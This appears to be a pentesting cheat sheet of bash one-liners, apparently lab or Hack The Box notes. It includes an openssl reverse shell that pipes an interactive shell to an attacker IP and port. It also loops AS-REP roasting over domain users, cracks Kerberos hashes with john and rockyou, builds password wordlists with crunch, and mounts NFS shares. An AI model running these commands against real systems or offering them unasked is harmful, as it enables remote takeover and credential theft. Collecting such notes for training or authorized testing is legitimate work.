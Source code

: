 ## generate client certificate from ca.key
```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out rh.pem
openssl pkcs12 -export -in rh.pem -inkey ca.key -out rh.p12
```

## openssl reverse shell 
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## generate passwd hash with openssl
```sh
openssl passwd -1 -salt rh0x01 password123
```

## check ASREPRoast for all domain users (without credentials)
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## john crack krb5asrep hash
```bash
john --format:krb5asrep alfresco.kerb --wordlist=/usr/share/wordlists/rockyou.txt
```


## generate password wordlist with crunch
```bash
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
# 13 13 - min max length
# bev - start's with
# @ will insert lower case characters
# , will insert upper case characters
# % will insert numbers
# ^ will insert symbols
```


## mount nfs share
```bash
mount -t nfs -o vers=3 10.1.1.1:/home/ ~/home


mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint
```
